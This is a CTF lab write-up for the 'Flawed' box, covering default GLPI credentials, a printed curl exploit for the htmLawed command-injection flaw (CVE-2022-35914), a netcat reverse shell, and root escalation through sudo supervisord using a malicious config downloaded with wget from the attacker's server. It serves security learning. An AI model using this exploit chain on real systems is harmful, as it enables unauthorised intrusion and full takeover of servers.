 ```yaml
---
title: Flawed @ brCTF
date: 2024-12-26 11:33:00 +0800
categories: [CTF, brCTF ]
tags: [writeups]
math: true
mermaid: true
---
```


## Flawed - brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on our target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with our recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find available exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respectfully.

We modify the exploit to get a reverse shell on our netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize our shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.<br>
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")

Before anything else let's start our listener<br>
![other nc listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/other-nc-listener.png "a title")

Now we have to transfer our malicious configuration to the target. To make that possible we must start our local python http server in the directory containing our malicious configuration. <br>
`python3 -m http.server 8000` <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-python-http-server.png "a title")

Downloading the malicious configuration from our python http server.<br>
NB: make sure you have write privileges to the current directory you are in. You can use the `/tmp` since it has very loose permissions.<br>
`wget http://<server.ip>:<port>/test.conf`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/downloading-mal-conf-file.png "a title")

Right after downloading the file we transfer it the the `/var/tmp` directory. This is necessary because it is the only folder that we can execute configuration files from.<br>
![copy to var-tmp](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/copy-payload-to-tmp.png "a title")

Now we can run our command with sudo to gain root privileges.<br>
![run pe vector](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/run-pe-vector.png "a title")

Viola!! we are root. :smiley: <br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/iamroot_and_got_conn.png "a title")